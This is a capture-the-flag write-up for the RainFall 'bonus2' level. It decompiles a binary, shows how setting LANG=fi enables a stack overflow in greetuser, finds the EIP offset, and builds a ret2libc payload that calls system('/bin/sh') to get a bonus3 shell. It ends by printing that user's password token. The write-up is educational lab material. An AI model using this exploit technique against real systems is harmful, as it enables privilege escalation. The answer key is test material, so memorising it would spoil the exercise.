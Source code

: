 # Bonus2

```bash
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x08048318  _init
0x08048360  memcmp
0x08048360  memcmp@plt
0x08048370  strcat
0x08048370  strcat@plt
0x08048380  getenv
0x08048380  getenv@plt
0x08048390  puts
0x08048390  puts@plt
0x080483a0  __gmon_start__
0x080483a0  __gmon_start__@plt
0x080483b0  __libc_start_main
0x080483b0  __libc_start_main@plt
0x080483c0  strncpy
0x080483c0  strncpy@plt
0x080483d0  _start
0x08048400  __do_global_dtors_aux
0x08048460  frame_dummy
0x08048484  greetuser
0x08048529  main
0x08048640  __libc_csu_init
0x080486b0  __libc_csu_fini
0x080486b2  __i686.get_pc_thunk.bx
0x080486c0  __do_global_ctors_aux
0x080486ec  _fini
```

We assume using https://dogbolt.org/?id=2e8bb7ea-1f7b-4c7b-a01b-0ff9afb4fc75#Boomerang=72&Hex-Rays=117&Ghidra=148&BinaryNinja=103 that the source code looks similar to :

```c
void greetuser(void)

{
  char local_4c [4];
  undefined4 local_48;
  char local_44 [64];
  
  if (language == 1) {
    local_4c[0] = 'H';
    local_4c[1] = 'y';
    local_4c[2] = 'v';
    local_4c[3] = -0x3d;
    local_48._0_1_ = -0x5c;
    local_48._1_1_ = -0x3d;
    local_48._2_1_ = -0x5c;
    local_48._3_1_ = ' ';
    builtin_strncpy(local_44,"päivää ",0xb);
  }
  else if (language == 2) {
    builtin_strncpy(local_4c,"Goed",4);
    local_48._0_1_ = 'e';
    local_48._1_1_ = 'm';
    local_48._2_1_ = 'i';
    local_48._3_1_ = 'd';
    builtin_strncpy(local_44,"dag!",4);
    local_44[4] = ' ';
    local_44[5] = '\0';
  }
  else if (language == 0) {
    builtin_strncpy(local_4c,"Hell",4);
    local_48._0_3_ = 0x206f;
  }
  strcat(local_4c,&stack0x00000004);
  puts(local_4c);
  return;
}

undefined4 main(int param_1,int param_2)

{
  undefined4 uVar1;
  int iVar2;
  char *pcVar3;
  undefined4 *puVar4;
  byte bVar5;
  char local_60 [40];
  char acStack_38 [36];
  char *local_14;
  
  bVar5 = 0;
  if (param_1 == 3) {
    pcVar3 = local_60;
    for (iVar2 = 0x13; iVar2 != 0; iVar2 = iVar2 + -1) {
      pcVar3[0] = '\0';
      pcVar3[1] = '\0';
      pcVar3[2] = '\0';
      pcVar3[3] = '\0';
      pcVar3 = pcVar3 + 4;
    }
    strncpy(local_60,*(char **)(param_2 + 4),0x28);
    strncpy(acStack_38,*(char **)(param_2 + 8),0x20);
    local_14 = getenv("LANG");
    if (local_14 != (char *)0x0) {
      iVar2 = memcmp(local_14,&DAT_0804873d,2);
      if (iVar2 == 0) {
        language = 1;
      }
      else {
        iVar2 = memcmp(local_14,&DAT_08048740,2);
        if (iVar2 == 0) {
          language = 2;
        }
      }
    }
    pcVar3 = local_60;
    puVar4 = (undefined4 *)&stack0xffffff50;
    for (iVar2 = 0x13; iVar2 != 0; iVar2 = iVar2 + -1) {
      *puVar4 = *(undefined4 *)pcVar3;
      pcVar3 = pcVar3 + ((uint)bVar5 * -2 + 1) * 4;
      puVar4 = puVar4 + (uint)bVar5 * -2 + 1;
    }
    uVar1 = greetuser();
  }
  else {
    uVar1 = 1;
  }
  return uVar1;
}
```

As we can see, only the 40 first chars from `argv[1]` are copied using `strncpy`. Then 32 chars are copied from `argv[2]` 

```bash
(gdb) r `python -c 'print("A" * 40)'` `python -c 'print("B" * 32)'` 
Starting program: /home/user/bonus2/bonus2 `python -c 'print("A" * 40)'` `python -c 'print("B" * 32)'`
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB

Program received signal SIGSEGV, Segmentation fault.
0x08004242 in ?? ()
```

Only the last 2 bytes of EIP are overwritten in this case.

We can look at the `memcmp` :

```c
iVar2 = memcmp(local_14,&DAT_0804873d,2);
```

```bash
(gdb) x/s 0x804873d
0x804873d:	 "fi"
```

And :

```c
iVar2 = memcmp(local_14,&DAT_08048740,2);
```

```bash
(gdb) x/s 0x08048740
0x8048740:	 "nl"
```

`language` is a global variable, and it is set depending on the content of the env variable `LANG`. 

We will try to set `LANG` to `fi` first :

```bash
bonus2@RainFall:~$ export LANG=fi
```

Does it change something ?

```bash
(gdb) r `python -c 'print("A" * 40)'` `python -c 'print("B" * 32)'`
Starting program: /home/user/bonus2/bonus2 `python -c 'print("A" * 40)'` `python -c 'print("B" * 32)'`
Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```

Yes EIP is completely overwritten ! When `language` was equal to 0, it probably marked the end of the overflow.

We check the offset of the second param : the overflow happens after the first 18 bytes of second parameter :

```bash
(gdb) r `python -c 'print("A" * 40)'` `python -c 'print("B" * 18 + "CCCC")'`
Starting program: /home/user/bonus2/bonus2 `python -c 'print("A" * 40)'` `python -c 'print("B" * 18 + "CCCC")'`
Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBCCCC

Program received signal SIGSEGV, Segmentation fault.
0x43434343 in ?? ()
```

As mentioned here https://stackoverflow.com/questions/6637448/how-to-find-the-address-of-a-string-in-memory-using-gdb, we can search for the address of a string using gdb via :

```bash
(gdb) info proc map
process 9244
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /home/user/bonus2/bonus2
	 0x8049000  0x804a000     0x1000        0x0 /home/user/bonus2/bonus2
	0xb7e2b000 0xb7e2c000     0x1000        0x0 
	0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fcf000 0xb7fd1000     0x2000   0x1a3000 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fd1000 0xb7fd2000     0x1000   0x1a5000 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fd2000 0xb7fd5000     0x3000        0x0 
	0xb7fda000 0xb7fdd000     0x3000        0x0 
	0xb7fdd000 0xb7fde000     0x1000        0x0 [vdso]
	0xb7fde000 0xb7ffe000    0x20000        0x0 /lib/i386-linux-gnu/ld-2.15.so
	0xb7ffe000 0xb7fff000     0x1000    0x1f000 /lib/i386-linux-gnu/ld-2.15.so
	0xb7fff000 0xb8000000     0x1000    0x20000 /lib/i386-linux-gnu/ld-2.15.so
	0xbffdf000 0xc0000000    0x21000        0x0 [stack]
```

Which gives us a range in which we can search and then the command `find` which uses this range and the string to search for :

```bash
(gdb) find 0xb7e2c000,0xb7fcf000,"/bin/sh"
0xb7f8cc58
1 pattern found.
```

Now just like the previous exercice :

```bash
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
```

It seems that we can put some garbage as the return address :

```bash
bonus2@RainFall:~$ ./bonus2 `python -c 'print("A" * 40)'` `python -c 'print("B" * 18 + "\x60\xb0\xe6\xb7" + "CCCC" + "\x58\xcc\xf8\xb7")'`
Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBB`��CCCCX���
$ whoami
bonus3
$ cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```
